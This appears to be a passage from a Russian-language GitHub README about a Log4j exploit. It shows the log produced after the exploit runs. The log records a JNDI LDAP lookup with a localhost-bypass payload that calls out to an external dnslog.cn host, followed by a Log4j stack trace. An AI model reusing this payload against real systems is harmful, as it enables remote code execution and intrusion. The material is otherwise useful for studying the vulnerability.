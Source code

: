 <img src="./screens/4.png" width="100%">

## Немного про особенности эксплойта

Посмотрим на лог после запуска эксплойта:

```
2023-12-13 18:31:22,817 main ERROR Unrecognized format specifier [S5Slevel]
2023-12-13 18:31:22,820 main ERROR Unrecognized conversion specifier [S5Slevel] starting at position 32 in conversion pattern.
2023-12-13 18:31:53,018 main WARN Error looking up JNDI resource [ldap://127.0.0.1#.m92ijy.dnslog.cn/exp]. javax.naming.CommunicationException: 127.0.0.1#.m92ijy.dnslog.cn:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at com.sun.jndi.ldap.Connection.<init>(Connection.java:243)
	at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1615)
	at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2849)
	at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:347)
	at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at com.sun.jndi.toolkit.url.GenericURLDirContext.getAttributes(GenericURLDirContext.java:100)
	at com.sun.jndi.url.ldap.ldapURLContext.getAttributes(ldapURLContext.java:316)
	at javax.naming.directory.InitialDirContext.getAttributes(InitialDirContext.java:142)
	at javax.naming.directory.InitialDirContext.getAttributes(InitialDirContext.java:137)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:222)
	at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:56)
	at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:221)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1110)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1033)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1042)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
```